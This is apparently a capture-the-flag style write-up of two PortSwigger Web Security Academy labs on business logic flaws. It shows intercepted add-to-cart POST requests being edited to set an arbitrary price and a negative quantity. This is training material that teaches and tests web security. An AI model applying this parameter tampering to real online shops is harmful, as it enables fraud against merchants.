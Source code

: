 ```yaml
---
description: https://portswigger.net/web-security/logic-flaws
---
```


# Business logic vulnerabilities

### Lab: Excessive trust in client-side controls

This lab doesn't adequately validate user input. You can exploit a logic flaw in its purchasing workflow to buy items for an unintended price.

We intercepted the request at Add to cart option.

We can see the request as follows

```
POST /cart HTTP/1.1
...

productId=1&redir=PRODUCT&quantity=1&price=133700
```

We can change price to as we want.

```
productId=1&redir=PRODUCT&quantity=1&price=100
```

Then go to the cart, we can see jacket's value is 1.00$. We can change price as we want.

### Lab: High-level logic vulnerability

This lab doesn't adequately validate user input. You can exploit a logic flaw in its purchasing workflow to buy items for an unintended price.

We intercepted the request at Add to cart option.

We can see the request as follows

```
POST /cart HTTP/1.1
...

productId=1&redir=PRODUCT&quantity=1
```

We sent the request to Repeater. We can change quantity value as we want.

It accepts negative, zero and positive decimal values.

We can change the value as -1.

```
productId=1&redir=PRODUCT&quantity=-1
```
